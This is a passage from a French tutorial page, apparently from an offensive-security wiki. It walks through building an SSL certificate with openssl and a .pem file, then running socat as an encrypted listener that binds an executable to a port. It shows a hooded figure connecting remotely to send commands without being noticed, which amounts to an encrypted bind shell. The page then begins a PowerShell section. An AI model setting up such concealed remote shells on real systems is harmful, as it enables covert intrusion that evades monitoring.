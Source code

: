 ![ssl-certificates-700x642.png](/uploads/reconnaissance/ssl-certificates-700x642.png){.align-center}

Création du certificat par **Alice** avec une clé de 2048 bits: 

`openssl req -newkey rsa:[Longueur_Clé] -nodes -keyout [Nom_Clé_Privée].key -x509 -days 362 -out [Nom_Certificat].crt`

Il faudra renseigner les champs pour la génération du certificat, certains champs peuvent rester vides :

![pybq65kyvg.gif](/uploads/reconnaissance/pybq65kyvg.gif){.align-center}

![vmware_hj8x5czlfl.png](/uploads/reconnaissance/vmware_hj8x5czlfl.png){.align-center}

![vmware_xojfq8vw8u.png](/uploads/reconnaissance/vmware_xojfq8vw8u.png){.align-center}

> **Attention** : Le système SSL repose sur un principe de sécurité primordial : **LA CLÉ PRIVÉE NE DOIT JAMAIS ÊTRE DÉVOILÉE/PUBLIÉE/PARTAGÉE AVEC QUICONQUE !**
{.is-danger}

Pour fonctionner en mode chiffré, **Socat** accepte uniquement un fichier de certificat encodé .pem contenant **le certificat ET la clé privée**. 

Alice va donc créer ce fichier .pem : 

`cat [Nom_Clé_Privée].key [Nom_Certificat].crt > [Nom_Certificat_Encodé].pem`

![vmware_5fmvaadbd5.png](/uploads/reconnaissance/vmware_5fmvaadbd5.png){.align-center}
![vmware_safpmbjju1.png](/uploads/reconnaissance/vmware_safpmbjju1.png){.align-center}

**Alice** peut maintenant créer un serveur d'écoute chiffré lié à son certificat et bind à un terminal :

`sudo socat OPENSSL-LISTEN:[Port],cert=[Nom_Certificat_Encodé].pem,verify=0,fork EXEC:[Executable]`

![vu20lujh7q.gif](/uploads/reconnaissance/vu20lujh7q.gif){.align-center}

**Monsieur Capuche** peut maintenant se connecter et envoyer des commandes sur le poste d'**Alice** en toute sécurité et sans alerter la terre entière de ses actions : `socat - OPENSSL:[@IP]:[Port],verify=0`

![i9hhefqbfc.gif](/uploads/reconnaissance/i9hhefqbfc.gif){.align-center}

# PowerShell
![1_lcbttbsawmaago0jnvl9ug.jpeg](/uploads/reconnaissance/1_lcbttbsawmaago0jnvl9ug.jpeg){.align-center}
> **Windows PowerShell**, anciennement Microsoft Command Shell (*MSH*), nom de code Monad, est une suite logicielle développée par Microsoft qui intègre une interface en ligne de commande, un langage de script nommé **PowerShell** ainsi qu'un kit de développement.
> Source : https://fr.wikipedia.org/wiki/Windows_PowerShell
{.is-info}

## INITIALISATION
> Pour des raisons de sécurité, PowerShell  bloque par défaut les scripts et certains paramètres de configuration.
{.is-warning}
